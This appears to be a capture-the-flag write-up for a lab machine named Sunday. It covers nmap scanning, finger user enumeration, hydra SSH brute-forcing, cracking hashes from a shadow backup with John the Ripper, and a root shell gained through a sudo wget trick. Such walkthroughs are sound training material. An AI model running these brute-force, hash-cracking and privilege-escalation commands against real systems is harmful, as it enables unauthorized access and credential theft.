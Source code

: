 # Connect to the machine 

use openvpn or another vpn to connect to the machine as follows 

```shell
openvpn lab_acountname.ovpn
```

after that try to ping the machine to make sure you are connected 


```shell
ping 10.10.10.76
```

if you get response then we are ready to enumerate


# Recon

 using Nmap with default scripts with default scripts and with services versions

```shell
nmap -sV -sC 10.10.10.76
```


which results to 

```shell

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-19 03:02 EDT
Nmap scan report for sunday.htb (10.10.10.76)
Host is up (0.065s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
79/tcp  open  finger?
|_finger: No one logged on\x0D
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq, TerminalServerCookie: 
|_    Login Name TTY Idle When Where
111/tcp open  rpcbind 2-4 (RPC #100000)
515/tcp open  printer
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port79-TCP:V=7.94%I=7%D=8/19%Time=64E06934%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,12,"No\x20one\x20logged\x20on\r\n")%r(GetRequest<i cutted the rest here >

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.87 seconds
```


to summery this result we have 4 ports open :

1. 79 finger
2. 111 rpcbind
3. 515 printer

# Enumeration

As I am not familiar with these Services i will search the internet for exploitation for each and started with finger :

## finger 

i found this [link](https://book.hacktricks.xyz/network-services-pentesting/pentesting-finger) usefull as it explains what the service is used for and how to enumerate it , but it looks like we will get some usernames from this service.

trying to Enumerate it with 
```shell
echo "root" | nc -vn 10.10.10.76 79

->
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
root     Super-User            console      <Oct 14, 2022>
```

it looks like the service works and the root user exists.


using this [script](https://pentestmonkey.net/tools/user-enumeration/finger-user-enum) to brute force the service for available users 

```shell
perl finger-user-enum.pl -U  /usr/share/wordlists/rockyou.txt -t 10.10.10.76

```

i got alot of answers as numbers and names and not user names, but i noticed just two users **sunny,sammy** have a when and where value , so i feel that they are the intended users from this service.

i couldnt find usefull information about attacking the other two services so i decided to go back to **recon** and this time using the nmap flag **-p-** which returned more nonstandard port

and found ssh on 22022 

so i ll use this to try to login in to the account sunny and then sammy

## bruteforcing


i tried brute-forcing the ssh service using hydra as follows (i tried different word list till this one worked for me), note that ssh is slow and yo cant use a huge wordlist :

```shell
hydra -l sunny -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt ssh://10.10.10.76:22022
```

which gaved me the passwrd **sunday**

## ssh

```shell
ssh sunny@10.10.10.76 -p 22022
```

and we got an initial foothold :)

finding the user.txt file 
```shell

find /home -name "user.txt"

->
/home/sammy/user.txt
```

and you can get the flag with the cat command

```shell
cat /home/sammy/user.txt 
```

## Privilege Escalation

using sudo -l we can see our sudo privileges 

```shell
sudo -l

->
User sunny may run the following commands on sunday:
    (root) NOPASSWD: /root/troll

```

running the script as sudo 
```shell
sudo /root/troll
testing
uid=0(root) gid=0(root)
```

nothing usefull and we dont have permission over the file as it is in the root directory.

looking at the history file with the command `history` showed an interesting file for backup **/backup/shadow.backup**

```shell

mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::

```

it looks like a backup for the /etc/shadow file , we can see from the \$5\$  that it is SHA-256 and we can try bruteforcing it using john the ripper 

```shell 
john shadow --wordlist=/usr/share/wordlists/rockyou.txt 

->
Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (sammy)     
1g 0:00:00:38 DONE (2023-08-19 04:25) 0.02631g/s 5376p/s 5376c/s 5376C/s domonique1..canpanita
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
(shadow is a copy of the backup file i copied to my attack host )


now we have the host sammy, lets log as sammy using 
```shell
su sammy
```

then running 

```shell
sudo -l

->
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```

we can execute wget as root 

going to the site [gtfOBINS](https://gtfobins.github.io/) and searching for wget,
we see that we can get a root shell using the following commands 

```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

and we landed in a root shell :)

and we can read the root flag in 
/root/root.txt


# Lesson

- Do not be afraid from services that you never heard  of like Finger, just search the Internet about it and it will be easy.
- If a way of PE is closed like in the troll script ,do not waste so much time on it just search for another.